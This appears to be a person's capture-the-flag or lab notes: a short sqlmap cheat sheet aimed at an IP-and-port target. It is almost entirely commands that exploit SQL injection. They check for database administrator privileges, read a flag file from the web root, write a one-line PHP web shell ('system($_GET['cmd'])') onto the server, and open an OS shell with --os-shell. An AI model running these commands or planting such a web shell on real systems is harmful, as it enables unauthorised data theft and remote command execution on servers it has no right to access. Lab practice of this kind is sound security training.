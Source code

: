 ___

# --is-dba

Database administrator privileges (DBA) to read data

```bash
sqlmap -u "http://94.237.54.201:48204/?id=1" --is-dba
```

# Reading Local Files

```bash
sqlmap -u "http://94.237.54.201:48204/?id=1" --is-dba --file-read "/var/www/html/flag.txt"
```

# Writing Local Files

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```bash
sqlmap -u "http://94.237.54.201:48204/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

# OS Command Execution

```bash
sqlmap -u "http://94.237.54.201:48204/?id=1" --os-shell
```